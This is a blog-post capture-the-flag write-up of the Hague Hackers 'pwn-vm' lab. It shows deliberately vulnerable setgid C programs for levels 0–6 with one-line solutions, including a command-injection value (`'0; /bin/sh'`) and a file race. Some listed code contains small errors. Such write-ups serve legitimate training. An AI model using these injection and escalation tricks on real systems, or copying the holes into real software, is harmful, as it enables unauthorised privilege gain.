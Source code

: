 ```yaml
---
layout: post
title: "Hague Hackers pwn-vm"
date: 2024-07-02 +0200
categories: jekyll update
---
```

![](haguehackers.png)

These are the `pwn-vm` challenges from Hague Hackers.

- 11 challenges
- `user: pwn`
- `pass: pwn123`
- `./levelup` to continue to next challenge, requires restarting the ssh session

## level 0
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    int gid = getegid();
    if(argc < 3) {
        puts("USAGE: ./level0 arg1 arg2");
        exit(0);
    }
    if((strncmp(argv[1],"ea5y_chaLL3ng3", 14))||(strncmp(argv[2],"eaSy_p34sy", 10))){
        puts("Try again!");
    }
    else {
        if(getenv("level0")){
            setresgid(gid,gid,gid);
            execve("/bin/bash", 0, 0);
        }
        else {
            puts("Maybe next time..");
        }
    }
    return 0;
}
```
- `export level0=test`
- https://stackoverflow.com/questions/234742/setting-environment-variables-in-linux-using-bash

## level 1
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char command[60];
    int gid = getegid();
    snprintf(command, "/bin/print %s !", getenv("level1"), 60);
    setresgid(gid,gid,gid);
    system(command);
    return 0;
```
- `export level1='0; /bin/sh'`

## level 2
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int sanitycheck(char * s) {
    if((strchr(s, ';'))||(strchr(s, '&'))||(strchr(s, '|'))||(strchr(s, '<'))||(strchr(s, '>'))){
        puts("Illegal");
        exit(1);
    }
    return 0;
}
int main(int argc, char * argv[]){
    char command[60];
    int gid = getegid();
    if(argc < 2) {
        puts("USAGE: ./level2 arg1");
        exit(0);
    }
    sanitycheck(argv[1]);
    snprintf(command,60, "/usr/bin/choom -n %s", argv[1]);
    printf("Executing command: %s", command);
    setresgid(gid,gid,gid);
    execve("/bin/bash", 0, 0);
    return 0;
}
```
- `./level2 "a"`
- supposed to set value of 0 to a process and launch /bin/sh

## level 3
level3.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char * argv[]){
    FILE* fp;
    char command[64];
    char output[20];
    int gid = getegid();
    if(argc < 3) {
        puts("USAGE: ./level0 arg1 arg2");
        exit(0);
    }
    snprintf(command, 64, "/usr/bin/python3 ./script.py %s %s 2>/dev/null", argv[1], argv[2]);
    fp = popen(command, "r");
    if (fp == NULL) {
        puts("Failed to run command");
        exit(1);
    }
    fgets(output, sizeof(output), fp);
    puts(output);
    if(!strncmp(output, "301", 3)){
        setresgid(gid,gid,gid);
        execve("/bin/bash", 0, 0);
    }
}
```

script.py
```py
import requests
import sys
URL = "http://"+sys.argv[1]+":"+sys.argv[2]
r = requests.get(URL)
print(r.status_code)
```
- `./level3 192.168.56.1 3000`

## level 4
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char * argv[]){
    FILE* fd;
    char out[20];
    int gid = getegid();
    fd = fopen("./level4_x78ezf", "w+");
    if (fd == NULL) {
        puts("Failed to open file");
        exit(1);
    }
    fprintf(fd,"%s","level4_is_fUn");
    fclose(fd);
    sleep(2);
    fd = fopen("./level4_x78ezf", "r");
    fgets(out,20, fd);
    puts(out);
    if(!strncmp(out, "level4_1s_4maZinG", 17)){
        setresgid(gid,gid,gid);
        execve("/bin/bash", 0, 0);
    }
    fclose(fd);
    return 0;
}
```
- run `./level4` first
- in second terminal `echo level4_1s_4maZinG > level4_x78ezf`

## level 5
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>

int main(int argc, char * argv[]){
    FILE* fp;
    char command[64];
    char output[32];
    int gid = getegid();
    if(argc < 2) {
        puts("USAGE: ./level5 arg1");
        exit(0);
    }
    snprintf(command, 64, "/usr/bin/md5sum %s 2>/dev/null", argv[1]);
    fp = popen(command, "r");
    fgets(output, 33, fp);
    puts(output);
    if(!strncmp(output, "e522e97c1e99a41f693aec0fb3c127cb", 32)){
        puts("Great!");
        setresgid(gid,gid,gid);
        execve("/bin/bash", 0, 0);
    }
    return 0;
}
```
- show all md5sums of files in current directory
- `find images -type f -exec md5sum {} +`

## level 6
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>

int main(int argc, char * argv[]){
    int gid = getegid();
    setresgid(gid,gid,gid);
    execve("/home/pwn/level6/whoami", 0, 0);
    return 0;
}
```
